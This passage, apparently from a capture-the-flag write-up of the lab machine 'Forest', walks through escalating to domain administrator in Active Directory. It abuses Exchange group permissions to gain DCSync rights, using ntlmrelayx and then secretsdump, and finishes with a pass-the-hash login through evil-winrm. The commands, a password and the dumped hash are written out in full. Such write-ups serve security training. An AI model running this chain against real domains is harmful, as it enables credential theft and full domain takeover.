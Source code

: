 First we need to add a user to `Exchange Windows Permission`, we can type `net group "Exchange Windows Permissions"` to check who is in the group.

It seems like no one. So We add `svc-alfresco` to this group.
![18a82e8a5b01fcdbd7e6f67fc9e87665.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-forest/78d84d2280f7410ca096266cee30eaca.png)

Added Successfully. And `Exchange Windows Permission group` has WriteDcal access to Domain object in Active Directory, which enables any member of this group to modify the domain privileges, among which is the privilege to perform DCSync operation.
![8d583931bebed439d5490d15ab7d6a9b.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-forest/a36cdf421436415eab9f3f82850d710d.png)

**Reference :** <https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/> 
Next, Run `ntlmrelayx`<br/>
>python3 ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco

![21be6b7645412b3892083b3f7cc9aad0.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-forest/e7a6b2e511f04f62937a21a4cdd1891d.png)

Now we’ve to browse to our localhost and need to give `svc-alfresco` password and we see the connection coming in at ntlmrelayx, which gives our user DCSync privileges.<br/>
![Screenshot_2020-04-22_16-42-21.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-forest/e631086164be43809baf891dcebcc3b6.png)


We got connection back and if u see closely it asks us to run `secretsdump.py`
![4bac1d7a1967d5380db1812ce82035a7.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-forest/67fba1e0ebd540099d5ddb710f7cfa65.png)

Here we got `Administrator` Hash.<br/>
>secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161

![dee4de2c21a7f042bd942e5295beccfb.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-forest/e46fb2f3db5e495c99d5b9a4605a0f62.png)

Now I can use this hash to login as administrator using `EvilWin-RM`<br/>
>ruby evil-winrm.rb -i 10.10.10.161 -u administrator -H "32693b11e6aa90eb43d32c72a07ceea6"

![24f7f08467eff462e3d41ba38c43c859.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-forest/7c60dc8405e24204ab4a56828f6a38d1.png)<br/>
We own the Root





















